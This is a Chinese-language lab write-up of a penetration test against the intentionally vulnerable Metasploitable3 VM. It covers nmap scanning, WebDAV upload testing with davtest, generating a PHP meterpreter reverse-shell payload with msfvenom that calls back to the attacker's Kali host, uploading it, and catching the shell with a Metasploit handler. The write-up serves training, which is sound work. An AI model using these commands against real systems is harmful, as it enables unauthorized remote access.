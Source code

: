```yaml
---
title: 【資訊安全】Metasploitable3 滲透測試實作（筆記）
date: 2024-04-20
tags:
  - ctf
---
```


## 先備知識

  * 知道如何使用 VMware 或 VirtualBox
  * Kali Linux 基本操作
  * 能夠讓 Kali 連線至 Metasploitable3
  * 良好的網路環境

## 確認 IP

Win2k8:

```bash
ipconfig
```

ub1404:

```bash
ifconfig
```

## 弱點掃描

使用 Nmap 將所有 port 掃描一遍，查看主機上開啟的 Service

```bash
sudo nmap -sV -sS -n -v --reason --open -p- <Metasploitable3 IP>
```

\<Metasploitable3 IP\> 請替換成靶機 IP

![nmap1](/images/metasploitable3/nmap_1.png)

![nmap2](/images/metasploitable3/nmap_2.png)

## 文件上傳漏洞

![upload](/images/metasploitable3/file_upload/uploads.png)

掃描 8585 port 是否存在文件上傳漏洞

```bash
davtest -url http://<Metasploitable3 IP>:8585/uploads/
```

![davtest](/images/metasploitable3/file_upload/davtest.png)

### 利用 msfvenom 生成 reverse shell payload

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Kali IP> LPORT=4444 -f raw > payload.php
```

\<Kali IP\> 請替換成 Kali Linux 的 IP

![msfvenom](/images/metasploitable3/file_upload/msfvenom.png)

```
註：Reverse Shell 與 Bind Shell
    * Reverse Shell: 讓受害者主動開 shell 給攻擊者，攻擊者要開 listener，並等受害者連線，因此需設定 LHOST/PORT 讓受害者連線
    * Bind Shell: 在受害者開一個後門，接著攻擊者主動連線到受害者，因此需設定 RHOST/PORT 讓攻擊者連線
```

### 上傳 payload

```bash
davtest -url http://<Metasploitable3 IP>:8585/uploads/ -upload payload.php -uploadloc DavTestDir_xxxxx/payload.php
```

![upload_payload](/images/metasploitable3/file_upload/upload_payload.png)

![upload_payload2](/images/metasploitable3/file_upload/upload_payload2.png)

### 啟動 metasploit

```bash
msfconsole
```

### 使用 exploit/multi/handler 模組

```bash
use exploit/multi/handler
```

### 設定 payload

```bash
set payload php/meterpreter/reverse_tcp
```

![msfconsole](/images/metasploitable3/file_upload/msfconsole.png)

### 設定參數

```bash
set LHOST <Kali IP>
set LPORT 4444
```

![msfconsole2](/images/metasploitable3/file_upload/msfconsole2.png)

### 執行

```bash
run
```

![run](/images/metasploitable3/file_upload/run.png)

### 等待受害者點擊 payload.php

![run2](/images/metasploitable3/file_upload/run2.png)

![meterpreter](/images/metasploitable3/file_upload/meterpreter.png)